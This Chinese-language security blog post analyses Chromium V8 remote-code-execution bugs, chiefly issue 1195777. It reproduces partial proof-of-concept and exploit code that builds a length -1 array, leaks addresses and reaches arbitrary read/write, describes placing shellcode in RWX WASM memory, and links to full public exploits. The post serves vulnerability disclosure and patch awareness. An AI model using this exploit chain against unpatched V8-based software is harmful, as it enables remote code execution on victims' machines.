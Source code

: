 > 原文链接: https://www.anquanke.com//post/id/238343 


# Chromium V8 JavaScript引擎远程代码执行漏洞分析讨论


                                阅读量   
                                **349377**
                            
                        |
                        
                                                                                    



[![](https://p2.ssl.qhimg.com/t0182267254e633be9b.jpg)](https://p2.ssl.qhimg.com/t0182267254e633be9b.jpg)



作者：frust@360 Noah Lab

## 0x01-概述

2021年4月13日，安全研究人员[Rajvardhan Agarwal](https://twitter.com/r4j0x00/status/1381643526010597380)在推特公布了本周第一个远程代码执行（RCE）的0Day漏洞，该漏洞可在当前版本（89.0.4389.114）的谷歌Chrome浏览器上成功触发。Agarwal公布的漏洞，是基于Chromium内核的浏览器中V8 JavaScript引擎的远程代码执行漏洞，同时还发布了该漏洞的[PoC](https://github.com/r4j0x00/exploits/tree/master/chrome-0day)。

2021年4月14日，360高级攻防实验室安全研究员[frust](https://twitter.com/frust93717815)公布了本周第二个[Chromium 0day](https://github.com/avboy1337/1195777-chrome0day/blob/main/1195777.html)(Issue 1195777)以及Chrome 89.0.4389.114的poc视频验证。该漏洞会影响当前最新版本的Google Chrome 90.0.4430.72，以及Microsoft Edge和其他可能基于Chromium的浏览器。

Chrome浏览器沙盒可以拦截该漏洞。但如果该漏洞与其他漏洞进行组合，就有可能绕过Chrome沙盒。



## 0x02-漏洞PoC

目前四个漏洞[issue 1126249](https://bugs.chromium.org/p/chromium/issues/detail?id=1126249)、[issue 1150649](https://bugs.chromium.org/p/chromium/issues/detail?id=1150649)、issue 1196683、issue 1195777的exp均使用同一绕过缓解措施手法（截至文章发布，后两个issue尚未公开），具体细节可参考[文章](https://faraz.faith/2021-01-07-cve-2020-16040-analysis/)。

基本思路是创建一个数组，然后调用shift函数构造length为-1的数组，从而实现相对任意地址读写。issue 1196683中关键利用代码如下所示。

```
function foo(a) `{`
......
	if(x==-1) x = 0;
	var arr = new Array(x);//----------------------&gt;构造length为-1数组
	arr.shift();
......
`}`
```

issue 1195777中关键利用代码如下所示：

```
function foo(a) `{`
    let x = -1;
    if (a) x = 0xFFFFFFFF;
    var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));//----------------------&gt;构造length为-1数组
    arr.shift();
    let local_arr = Array(2);
    ......
`}`
```

参考[issue 1126249](https://bugs.chromium.org/p/chromium/issues/detail?id=1126249)和[issue 1150649](https://bugs.chromium.org/p/chromium/issues/detail?id=1150649)中关键poc代码如下所示，其缓解绕过可能使用同一方法。

```
//1126249
function jit_func(a) `{`
	.....
    v5568 = Math.sign(v19229) &lt; 0|0|0 ? 0 : v5568;
    let v51206 = new Array(v5568);
    v51206.shift();
    Array.prototype.unshift.call(v51206);
    v51206.shift();
   .....
`}`

//1150649
function jit_func(a, b) `{`
  ......
  v56971 = 0xfffffffe/2 + 1 - Math.sign(v921312 -(-0x1)|6328);
  if (b) `{`
    v56971 = 0;
  `}`
  v129341 = new Array(Math.sign(0 - Math.sign(v56971)));
  v129341.shift();
  v4951241 = `{``}`;
  v129341.shift();
  ......
`}`
```

国内知名研究员[gengming](https://twitter.com/dmxcsnsbh)和[@dydhh1](https://twitter.com/dydhh1)推特发文将在zer0pwn会议发表议题讲解CVE-2020-1604[0|1]讲过如何绕过缓解机制。本文在此不再赘述。

frust在youtube给出了Chrome89.0.4389.114的poc视频验证；经测试最新版Chrome 90.0.4430.72仍旧存在该漏洞。<br><video style="width: 100%; height: auto;" src="https://rs-beijing.oss.yunpan.360.cn/Object.getFile/anquanke1/Y2hyb21lMC41ZGF5LWlzc3VlMTE5NTc3Ny5tcDQ=" controls="controls" width="300" height="150">﻿您的浏览器不支持video标签 </video>



## 0x03-exp关键代码

exp关键代码如下所示。

```
class LeakArrayBuffer extends ArrayBuffer `{`
        constructor(size) `{`
            super(size);
            this.slot = 0xb33f;//进行地址泄露
        `}`
    `}`
function foo(a) `{`
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));//构造长度为-1的数组
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//
        arr[0] = 0x1122;//修改数组长度
        return [arr, local_arr, buff];
    `}`
    for (var i = 0; i &lt; 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
```

通过代码Array(Math.sign(0 – Math.max(0, x, -1)))创建一个length为-1的数组，然后使用LeakArrayBuffer构造内存布局，将相对读写布局成绝对读写。

这里需要说明的是，由于chrome80以上版本启用了地址压缩，地址高4个字节，可以在构造的array后面的固定偏移找到。

先将corrupt_buffer的地址泄露，然后如下计算地址

```
(corrupt_buffer_ptr_low &amp; 0xffff0000) - ((corrupt_buffer_ptr_low &amp; 0xffff0000) % 0x40000) + 0x40000;
```

可以计算出高4字节。

同时结合0x02步骤中实现的相对读写和对象泄露，可实现绝对地址读写。@r4j0x00在issue 1196683中构造length为-1数组后，则通过伪造对象实现任意地址读写。

之后，由于WASM内存具有RWX权限，因此可以将shellcode拷贝到WASM所在内存，实现任意代码执行。

具体细节参考[exp](https://github.com/avboy1337/1195777-chrome0day/blob/main/1195777.html)。

该漏洞目前已[修复](https://chromium-review.googlesource.com/c/v8/v8/+/2826114/3/src/compiler/representation-change.cc#953)。



## 0x04-小结

严格来说，此次研究人员公开的两个漏洞并非0day，相关漏洞在最新的V8版本中已修复，但在公开时并未merge到最新版chrome中。由于Chrome自身拥有沙箱保护，该漏洞在沙箱内无法被成功利用，一般情况下，仍然需要配合提权或沙箱逃逸漏洞才行达到沙箱外代码执行的目的。但是，其他不少基于v8等组件的app（包括安卓），尤其是未开启沙箱保护的软件，仍具有潜在安全风险。

漏洞修复和应用代码修复之间的窗口期为攻击者提供了可乘之机。Chrome尚且如此，其他依赖v8等组件的APP更不必说，使用1 day甚至 N day即可实现0 day效果。这也为我们敲响警钟，不仅仅是安全研究，作为应用开发者，也应当关注组件漏洞并及时修复，避免攻击者趁虚而入。

我们在此也敦促各大软件厂商、终端用户、监管机构等及时采取更新、防范措施；使用Chrome的用户需及时更新，使用其他Chrome内核浏览器的用户则需要提高安全意识，防范攻击。



## 参考链接

[https://chromium-review.googlesource.com/c/v8/v8/+/2826114/3/src/compiler/representation-change.cc](https://chromium-review.googlesource.com/c/v8/v8/+/2826114/3/src/compiler/representation-change.cc)

[https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=476971](https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=476971)

[https://bugs.chromium.org/p/chromium/issues/detail?id=1150649](https://bugs.chromium.org/p/chromium/issues/detail?id=1150649)

[https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=465645](https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=465645)

[https://bugs.chromium.org/p/chromium/issues/detail?id=1126249](https://bugs.chromium.org/p/chromium/issues/detail?id=1126249)

[https://github.com/avboy1337/1195777-chrome0day/blob/main/1195777.html](https://github.com/avboy1337/1195777-chrome0day/blob/main/1195777.html)

[https://github.com/r4j0x00/exploits/blob/master/chrome-0day/exploit.js](https://github.com/r4j0x00/exploits/blob/master/chrome-0day/exploit.js)
